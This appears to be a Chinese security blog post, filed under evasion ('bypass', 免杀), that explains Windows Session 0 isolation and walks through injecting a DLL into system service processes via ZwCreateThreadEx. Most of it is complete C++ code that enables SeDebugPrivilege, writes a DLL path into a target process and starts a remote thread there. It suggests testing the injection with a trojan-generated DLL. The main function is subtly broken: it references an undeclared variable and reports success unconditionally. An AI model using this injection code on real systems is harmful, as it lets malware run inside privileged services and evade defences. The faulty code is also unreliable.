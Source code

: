 ```yaml
---
layout: post
title: 突破SESSION 0隔离的远程线程注入
categories: bypass
description: bypass 之 突破SESSION 0隔离的远程线程注入
keywords: Windows，远程线程注入，免杀，bypass

---
```


突破SESSION 0隔离的远程线程注入

# 突破SESSION 0隔离的远程线程注入

## 一、Session介绍

在Windows XP、Windows Server 2003，以及更老版本的Windows操作系统中，服务和应用程序使用相同的会话（Session）运行，而这个会话是由第一个登录到控制台的用户启动的。该会话就叫做Session 0。

在Windows Vista之前，Session 0不仅包含服务，也包含标准用户应用程序。

将服务和用户应用程序一起在Session 0中运行会导致安全风险，因为服务会使用提升后的权限运行，而用户应用程序使用用户特权（大部分都是非管理员用户）运行，这会使得恶意软件以某个服务为攻击目标，通过“劫持”该服务，达到提升自己权限级别的目的。

从Windows Vista开始，只有服务可以托管到Session 0中，用户应用程序和服务之间会被隔离，并需要运行在用户登录到系统时创建的后续会话中。例如第一个登录的用户创建 Session 1，第二个登录的用户创建Session 2，以此类推

## 二、实现原理

ZwCreateThreadEx函数可以突破SESSION 0 隔离，将DLL注入到SESSION 0 隔离的系统服务进程中。

CreateRemoteThread底层实际上也是通过ZwCreateThreadEx函数实现线程创建的。CreateRemoteThread注入系统进程会失败的原因是因为调用ZwCreateThreadEx创建远程线程时，第七个参数CreateThreadFlags为1。

使用CreateRemoteThread注入失败DLL失败的关键在第七个参数CreateThreadFlags， 他会导致线程创建完成后一直挂起无法恢复进程运行，导致注入失败。而想要注册成功，把该参数的值改为0即可。

由于在ntdll.dll中，ZwCreateThreadEx并没有被声明，因此需要使用GetProcAddress导出地址。

## 三、编码实现

```c++
#include "Windows.h"
#include <stdio.h>
 
BOOL ZwCreateThreadExInjectDLL(DWORD dwProcessId, const char* pszDllFileName) {
    HANDLE hProcess = NULL;
    SIZE_T dwSize = 0;
    LPVOID pDllAddr = NULL;
    FARPROC pFuncProcAddr = NULL;
    HANDLE hRemoteThread = NULL;
    DWORD dwStatus = 0;
 
    // 打开进程
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcessId);
    if (NULL == hProcess) {
        printf("Error OpenProcess:%d", GetLastError());
        return FALSE;
    }
 
    // 申请内存
    dwSize = 1 + ::lstrlen(pszDllFileName);
    pDllAddr = VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
    if (pDllAddr == NULL){
        printf("Error VirtualAllocEx:%d", GetLastError());
         return FALSE;
    }
 
    // 写入数据
    if (FALSE == WriteProcessMemory(hProcess, pDllAddr, pszDllFileName, dwSize, NULL)) {
        printf("Error WriteProcessMemory:%d", GetLastError());
        return FALSE;
    }
 
#ifdef _WIN64
    typedef DWORD(WINAPI* typedef_ZwCreateThreadEx)(
        PHANDLE ThreadHandle,
        ACCESS_MASK DesiredAccess,
        LPVOID ObjectAttributes,
        HANDLE ProcessHandle,
        LPTHREAD_START_ROUTINE lpStartAddress,
        LPVOID lpParameter,
        ULONG CreateThreadFlags,
        SIZE_T ZeroBits,
        SIZE_T StackSize,
        SIZE_T MaximumStackSize,
        LPVOID pUnkown);
#else
    typedef DWORD(WINAPI* typedef_ZwCreateThreadEx)(
        PHANDLE ThreadHandle,
        ACCESS_MASK DesiredAccess,
        LPVOID ObjectAttributes,
        HANDLE ProcessHandle,
        LPTHREAD_START_ROUTINE lpStartAddress,
        LPVOID lpParameter,
        BOOL CreateSuspended,
        DWORD dwStackSize,
        DWORD dw1,
        DWORD dw2,
        LPVOID pUnkown);
#endif
 
    // 加载ntdll.dll
    HMODULE hNtdllDll = LoadLibrary("ntdll.dll");
    if (NULL == hNtdllDll) {
        printf("Error Load 'ntdll.dll':%d", GetLastError());
        return FALSE;
    }
 
    // 获取LoadLibraryA函数地址
    pFuncProcAddr = GetProcAddress(::GetModuleHandle("kernel32.dll"), "LoadLibraryA");
    if (NULL == pFuncProcAddr) {
        printf("Error GetProcAddress 'LoadLibraryW':%d", GetLastError());
        return FALSE;
    }
 
    // 获取ZwCreateThreadEx函数地址
    typedef_ZwCreateThreadEx ZwCreateThreadEx = (typedef_ZwCreateThreadEx)GetProcAddress(hNtdllDll, "ZwCreateThreadEx");
    if (NULL == ZwCreateThreadEx) {
        printf("Error GetProcAddress 'ZwCreateThreadEx':%d", GetLastError());
        return FALSE;
    }
 
    // 使用ZwCreateThreadEx创建远线程，实现DLL注入
    dwStatus = ZwCreateThreadEx(&hRemoteThread, PROCESS_ALL_ACCESS, NULL, hProcess, (LPTHREAD_START_ROUTINE)pFuncProcAddr, pDllAddr, 0, 0, 0, 0, NULL);
    if (NULL == hRemoteThread) {
        printf("Error Inject DLL:%u", dwStatus);
        return FALSE;
    }
    CloseHandle(hProcess);
    FreeLibrary(hNtdllDll);
 
    return TRUE;
}
 
// OpenProcess打开高权限的进程需要提权
BOOL EnbalePrivileges(HANDLE hProcess, const char* pszPrivilegesName)
{
     HANDLE hToken = NULL;
     LUID luidValue = { 0 };
     TOKEN_PRIVILEGES tokenPrivileges = { 0 };
     BOOL bRet = FALSE;
     DWORD dwRet = 0;
     // 打开进程令牌并获取进程令牌句柄
     bRet = ::OpenProcessToken(hProcess, TOKEN_ADJUST_PRIVILEGES, &hToken);
     if (FALSE == bRet)
     {
         printf("OpenProcessToken");
         return FALSE;
     }
     // 获取本地系统的 pszPrivilegesName 特权的LUID值
     bRet = ::LookupPrivilegeValue(NULL, pszPrivilegesName, &luidValue);
     if (FALSE == bRet){
         printf("LookupPrivilegeValue");
         return FALSE;
     }
     // 设置提升权限信息
     tokenPrivileges.PrivilegeCount = 1;
     tokenPrivileges.Privileges[0].Luid = luidValue;
     tokenPrivileges.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
     // 提升进程令牌访问权限
     bRet = ::AdjustTokenPrivileges(hToken, FALSE, &tokenPrivileges, 0, NULL, NULL);
     if (FALSE == bRet){
         printf("AdjustTokenPrivileges");
         return FALSE;
     }
     else{
         // 根据错误码判断是否特权都设置成功
         dwRet = ::GetLastError();
         if (ERROR_SUCCESS == dwRet){
             printf("SUCCESS!!");
             return TRUE;
         }
         else if (ERROR_NOT_ALL_ASSIGNED == dwRet){
             printf("ERROR_NOT_ALL_ASSIGNED");
             return FALSE;
         }
     }
     return FALSE;
 }
 
 
int main() {
    // 提升当前进程令牌权限
    HANDLE hProcess = GetCurrentProcess();
    EnbalePrivileges(hProcess, SE_DEBUG_NAME);
 	// 远线程注入 DLL
#ifndef _WIN64
    const char* dllPath = "E:\\Dll1.dll";
    ZwCreateThreadExInjectDLL(2940, dllPath);
#else    
    const char* dllPath = "E:\\Dll1.dll";
    ZwCreateThreadExInjectDLL(2940, dllPath);
#endif
	if (FALSE == bRet)
	{
		printf("Inject Dll Error.\n");
	}
	printf("Inject Dll OK.\n");
    return 0;
}
```

在这里无法通过MessageBox判断是否注入成功。由于会话隔离，在系统程序中不能显示程序窗体，也不能用常规方式来建立用户进程。所以这里最好使用马生成的dll来判断DLL是否注入成功。

## 四、步骤总结

①打开注入进程，获取进程句柄
		②在注入的进程申请内存地址
		③写入内存地址
		④加载ntdll，获取LoadLibraryA函数地址
		⑤获取ZwCreateThreadEx函数地址
		⑥使用 ZwCreateThreadEx 创建远线程, 实现 DLL 注入

## 五、注意事项

①需要使用管理员权限

②由于会话隔离，在系统服务程序里不能显示程序窗体，也不能用常规方式创建用户进程，进程注入dll使用MessageBox，会无法显示

③ZwCreateThreadEx函数在32位和64位系统下，其函数声明中的参数是有区别的，一定要区分开